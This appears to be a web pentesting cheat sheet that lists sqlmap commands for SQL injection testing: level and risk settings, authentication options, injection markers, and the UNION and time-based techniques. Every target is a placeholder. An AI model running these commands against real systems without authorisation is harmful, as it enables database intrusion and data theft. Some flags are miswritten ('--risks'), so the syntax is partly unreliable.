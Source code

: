 # Injection

Search Tag(s): #webapp-pentesting #sql-injection #sqlmap

## Payload Injection Test Levels

### Levels

- Level 1 (by default) targets only basic GET and POST request parameters. Even if the flag is not specified it'll always use `--level=1` payloads to inject the URL. The amount of HTTP requests will always be less than 100.

```
$ sqlmap -u "<URL>" --level=1 -p <parameter>
```

- Level 2 will target HTTP cookie header. The HTTP requests will be somewhere between 100 - 200.

```
$ sqlmap -u "<URL>" --level=2 -p <parameter>

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --param-exclude="COOKIE"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --skip="cookies"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." -p <parameter>
```

- Level 3 will will two additional HTTP headers which are **User-Agent** and **Referer** with additional payloads to inject. The **inline query** technique is reached to this level. The HTTP requests will be somewhere between 200 - 500.

`$ sqlmap -u "<URL>" --level=3`

- Level 4 contains more payloads for certain type of techniques and no additional HTTP header type to inject. The HTTP requests will be somewhere between 500 - 1000.

`$ sqlmap -u "<URL>" --level=4`

- Level 5 will inject **HTTP Host** with additional payloads contains on numerous techniques. The amount of HTTP requests will be more than 1000.

`$ sqlmap -u "<URL>" --level=5`

### Risks

- Risks 1 (by default) contains payloads that are deemed safe to test on all levels. Even if the flag is not specified it'll always use `--risks=1` payloads to inject the URL. 

`$ sqlmap -u "<URL>" --risks=1`

- Risk 2 contains payloads that might cause denial of service (DoS) which is usually for smaller sites. However, sqlmap has mechanisms to attempt and prevent it from happening.

`$ sqlmap -u "<URL>" --risks=2`

- From this level and beyond has a huge risk by modifying the database to perform certain tasks.

`$ sqlmap -u "<URL>" --risks=3`

## Authentication Methods

`$ sqlmap -u "<URL>" --cookie="<key_1>=<value_1>;<key_n>=<value_n>"`

`$ sqlmap -u "<URL>" --headers="Authorization=<value>"`

`$ sqlmap -u "<URL>" --auth-type=<Basic | Digest | Bearer | ...> --auth-cred=<username>:<password>`

`$ sqlmap -u "<URL>" --auth-file=/path/to/file.pem`

### DBMS Authentication

`$ sqlmap -u -d <scheme>://<username>:<password>@<IP>:<PORT>/<database_name> --dbms-cred=<username>:<password>`

## Injection Markers

- Specify the parameter

`$ sqlmap -u "<URL>" -p <parameter>"`

- Skip parameters if they contain negative heuristic results. Proceed further injection on positive heuristics. This can be used to scan multiple URLs.

```
$ sqlmap -u "<URL>" --smart

$ sqlmap -m urls.txt --smart --batch
```

- Specify a HTTP header to inject

`$ sqlmap -u "<URL>" --headers="<headers>"`

- Specify injection markers inside parameter values (`%INJECT_HERE%` or `*`).

```
$ sqlmap -u "http[s]://<IP>/?<parameter>=%INJECT_HERE%"

$ sqlmap -u "http[s]://<IP>/?<parameter>=*"

$ sqlmap -u "http[s]://<IP>/parameter*/"
```

- Setting boundaries of prefix and suffix to customize the injection.

`$ sqlmap -u "<URL>" --prefix="'" --suffix="--"`

## SQL Injection Techniques

### UNION-Based Query 

`$ sqlmap -u "<URL>" --technique=U --union-cols=<number_of_columns>`

`$ sqlmap -u "<URL>" --technique=U --union-char="A1B2"`

`$ sqlmap -u "<URL>" --technique=U --union-from="<table_name>"`

### Time-Blind Query

- This is also used for blind SQL Injection method

`$ sqlmap -u "<URL>" --technique=T --time-sec=<seconds>`

## Filter Payloads

`$ sqlmap -u "<URL>" --test-filter="<payload_title>"`

`$ sqlmap -u "<URL>" --test-skip="BENCHMARK"`